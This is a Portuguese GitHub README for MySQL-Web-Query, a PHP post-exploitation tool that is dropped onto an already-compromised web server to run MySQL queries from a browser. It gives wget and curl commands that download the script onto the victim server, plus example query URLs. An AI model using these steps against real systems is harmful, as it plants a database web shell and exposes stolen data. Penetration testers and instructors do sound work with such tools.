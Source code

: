 # MySQL-Web-Query

Existem casos (em um cenário pós-exploração) em que, após comprometer uma aplicação web e obter shell, não é possível interagir com o MySQL em virtude das limitações de interação da shell que foi obtida.

Neste caso o **MySQL-Web-Query** pode ser útil.

### :hammer_and_wrench: Requisitos

É necessário que o web server comprometido use a tecnologia PHP e o MySQL como DBMS.

### 📋 Como usar

Transfira o script para o web server em um diretório acessível via browser:
```
wget https://url/query.php
```
ou
```
curl https://url/query.php > query.php
```
<br>

Deve ser informado os parâmetros **db** (banco de dados) e **q** (query). Exemplos:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)
